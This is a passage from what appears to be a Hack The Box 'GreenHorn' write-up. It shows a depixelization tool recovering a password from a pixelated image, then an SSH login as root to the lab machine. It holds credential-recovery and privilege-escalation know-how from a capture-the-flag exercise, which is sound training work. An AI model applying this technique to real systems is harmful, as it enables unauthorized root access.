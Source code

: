 ```sh
2025-02-11 18:11:13,643 - Splitting single matches and multiple matches
2025-02-11 18:11:13,649 - [16 straight matches | 174 multiple matches]
2025-02-11 18:11:13,649 - Trying geometrical matches on single-match squares
2025-02-11 18:11:14,464 - [29 straight matches | 161 multiple matches]
2025-02-11 18:11:14,464 - Trying another pass on geometrical matches
2025-02-11 18:11:15,177 - [41 straight matches | 149 multiple matches]
2025-02-11 18:11:15,178 - Writing single match results to output
2025-02-11 18:11:15,179 - Writing average results for multiple matches to output
2025-02-11 18:11:20,494 - Saving output image to: ../outputcas.png
```
{% endraw %}

<br />
Check the outputcas.png picture to see the descrambled image.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/greenhorn/side.png" title="outputcas.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Use the password in the output image to ssh into the server as root.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn/Depixelization_poc]
└─$ ssh root@10.10.11.25
root@10.10.11.25's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Feb 11 07:14:15 AM UTC 2025

  System load:           0.0
  Usage of /:            63.3% of 3.45GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             237
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.25
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5c7b


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~#
```
{% endraw %}
